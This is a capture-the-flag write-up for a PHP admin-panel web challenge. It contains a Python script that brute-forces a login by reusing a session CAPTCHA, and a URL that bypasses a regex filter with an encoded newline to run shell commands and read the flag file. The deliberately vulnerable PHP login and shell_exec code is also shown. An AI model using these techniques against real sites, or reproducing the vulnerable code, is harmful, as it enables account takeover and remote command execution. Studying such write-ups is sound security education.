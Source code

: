 # Super Secure Admin Panel
Super Secure Admin Panel is a web challenge involving bypassing a CAPTCHA to facilitate brute forcing of an admin's password, then bypassing a regex that prevents command injection for RCE.

## CAPTCHA bypass
We're presented with an admin panel login that requires a username, password and CAPTCHA value. The CAPTCHA is created in the `captcha.php` file, by following this tutorial: https://www.allphptricks.com/create-a-simple-captcha-script-using-php/. This tutorial has a logic flaw in it that is included in many PHP CAPTCHA tutorials.

We can view the authentication code inside `login.php`:

```php
<?php
    session_start();

    $error = "";
    
    if(isset($_POST["username"]) && isset($_POST["password"]) && isset($_POST["captcha"]))
    {
        if (!isset($_SESSION["captcha"]) || $_POST['captcha'] !== $_SESSION["captcha"]) {
            $error = "
            The captcha value was incorrect.
            ";
        }
        else
        {
            // Password is different on remote!
            if(!($_POST["username"] === "admin" && $_POST["password"] === "password")) {
                $error = "
                The username or password was incorrect.
                ";
            }
            else
            {
                // Log admin in
                $_SESSION["isAdmin"] = true;
                header("Location: /");
                die();
            }
        }
    }
?>
```

We can see that it checks for a username, password and captcha within the form data, checks the submitted captcha value against `$_SESSION["captcha"]` then checks the username and password. If the username and password match, `$_SESSION["isAdmin"]` is set to true, allowing us to access the admin page. `$_SESSION["captcha"]` is set at the bottom of `captcha.php`, where `$captcha_code` is the code in the image:

```php
/* Show captcha image in the html page */
// defining the image type to be shown in browser widow
header('Content-Type: image/jpeg'); 
imagejpeg($captcha_image); //showing the image
imagedestroy($captcha_image); //destroying the image instance
$_SESSION['captcha'] = $captcha_code;
```

The logic flaw within this code is that the CAPTCHA is subject to a reuse attack. This is where an attacker can re-use the same CAPTCHA value for different requests. As the value of the CAPTCHA is stored within the PHP session and is only generated when visiting `/captcha.php`, if an attacker does not visit this page but reuses a previous `PHPSESSID` cookie, their CAPTCHA value will never change, allowing them to brute force the login page.

To fix this, all the developer needed to do was to ensure that `$_SESSION["captcha"]` is deleted after each usage, forcing the user to get a new CAPTCHA value to submit the form again.

For us to exploit this, we can write a simple Python script to login once, ask the user to solve the CAPTCHA, then save the `PHPSESSID` cookie to use for brute forcing.

```python
import requests

session = requests.Session()

response = session.get("http://localhost:8080/login.php")

phpsessid = response.cookies["PHPSESSID"]
print(f"[+] Got PHPSESSID: {phpsessid}")

captcha_image = session.get("http://localhost:8080/captcha.php")

with open("captcha.jpg", "wb") as captcha_file:
    captcha_file.write(captcha_image.content)

captcha = input("What is the captcha value stored in captcha.jpg: ")

# Attempt login to ensure valid cookie
response = requests.post(
    "http://localhost:8080/login.php",
    cookies={"PHPSESSID": phpsessid},
    data={"username": "josh", "password": "josh", "captcha": captcha},
)

if "username or password" not in response.text:
    print("[!] Captcha value was wrong")
    exit()

print("[+] Captcha value valid, brute-forcing password...")

with open("/wordlists/rockyou.txt") as wordlist:
    for password in wordlist.readlines():
        response = requests.post(
            "http://localhost:8080/login.php",
            cookies={"PHPSESSID": phpsessid},
            data={"username": "admin", "password": password, "captcha": captcha},
        )

        if "incorrect" not in response.text:
            print(response.text)
            print("[+] Found valid password:", password)
            exit()

        print("[-] Invalid password:", password)
```

After a while, our script finds the valid password for the admin: `cassandra`.

### Bypassing regex
At the top of `index.php`, we can see how the `operation` GET parameter works.

```php
if(isset($_GET["operation"]))
{
    // Just in case we get hacked...
    $safetyRegex = "/^.*[\^$(){}`&;*,|\-\"\'~].*$/";
    if(preg_match($safetyRegex, $_GET["operation"]))
    {
        die("Invalid operation detected!");
    }

    $operationOutput = shell_exec($_GET["operation"]);
}
```

The regex checks for a variety of different special characters within bash, and if the GET parameter does not match that regex, it will be ran using `shell_exec`. While PHP offers functions to sanitise user input for passing to the shell, the developer chose to use a poorly implemented filtering approach instead. The regex checks from the start of the line, matches any characters zero to unlimited times, matches any of the special characters, then matches any characters zero to unlimited times, then matches the end of the line. However, because of the matching of the start and end of the line and the fact it doesn't use the `m` regex flag (which matches over multiple lines), simply including a new line in the GET parameter will bypass the regex check, as the second line will not be fed through the regex.

Therefore, we can use the URL encoded newline value (`%0A`) to bypass the regex:

```
http://localhost:8080/index.php?operation=uptime%0Acat%20/flag.txt
WMG{wAI7_all_7Ho53_php_cAp7Cha_7U7Orial5_AR3_wroN9???}
```